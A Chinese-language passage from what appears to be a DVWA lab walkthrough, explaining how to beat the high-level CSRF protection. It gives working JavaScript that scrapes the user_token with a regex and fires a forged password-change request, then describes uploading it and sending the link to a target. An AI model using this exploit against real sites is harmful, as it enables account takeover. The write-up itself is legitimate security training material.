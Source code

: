 我们将把我们的利用分为两步:

*   第一次调用通过使用正则表达式获得“user_token”值。
*   第二个调用运行真正的漏洞。

我们放置漏洞的方式和中等难度等级是一样的。
所以我不会在这上面花太多的话。

首先，我们的 Javascript 代码必须向目标页面发送一个普通的请求。

```
const request = new XMLHttpRequest();
const url = "http://10.10.174.199/vulnerabilities/csrf/"

request.open("GET", url);
```

默认情况下，响应是一个字符串，所以在名为“`onreadystatechanged`”的方法中，我们可以提取 user_token。

通过观察它由 32 个十六进制字符组成，并且在页面上没有歧义，我们可以运行得更快。

这可以是一个工作简单的正则表达式:

之后，让我们编写通过正则表达式获取 user_token 并修改密码的函数。

```
request.onreadystatechange = () => {
  if (request.readyState === request.DONE && request.status === 200) {

    var response = request.responseText;

    var user_token = /[a-f0-9]{32}/g.exec(response)[0]
    var payload = "http://10.10.174.199/vulnerabilities/csrf/?password_new=stackzero&password_conf=stackzero&Change=Change&user_token="+user_token;
    var second_request = new XMLHttpRequest();
    second_request.open("GET", payload);
    second_request.send()

    }
};
```

简而言之，这段代码:

*   将第一个请求的响应保存在变量中
*   使用正则表达式查找 user_token(结果总是一个列表，即使它只有一个元素)
*   构建恶意 URL
*   发送第二个请求

最后，为了让 CSRF 漏洞发挥作用:

*   将安全性设置为低(我们将在另一篇文章中看到如何绕过文件上传的措施)。
*   进入文件上传部分并上传你的漏洞，就像你在中级安全级别所做的那样。
*   将安全性设置为高
*   假设您将包含漏洞的 HTML 文件的链接发送给目标。
*   尝试打开你要发送给目标的链接
*   注销，然后尝试登录，看看是否有效。
